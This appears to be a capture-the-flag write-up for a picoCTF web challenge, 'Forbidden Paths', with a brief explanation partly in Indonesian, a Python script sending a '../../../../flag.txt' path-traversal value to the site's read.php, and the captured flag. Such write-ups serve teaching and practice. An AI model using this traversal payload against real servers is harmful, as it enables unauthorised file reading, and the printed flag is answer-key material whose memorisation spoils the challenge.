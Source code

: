 <h1>Forbidden Paths</h1>
<p>Can you get the flag?
Here's the <a href='http://saturn.picoctf.net:55827/'>website</a>.
We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?</p>

<h3>Solution</h3>
<p>directory web server /usr/share/nginx/html/ jadi turun 4 directory dan flag.txt terdapat di directory '/' ../../../../flag.txt</p>

```python3
import requests

url = 'http://saturn.picoctf.net:55827/read.php'
params = {'filename':'../../../../flag.txt'}
res = requests.post(url,data=params).text
print(res)
```
<h3>Flag</h3>
<p>picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}</p>
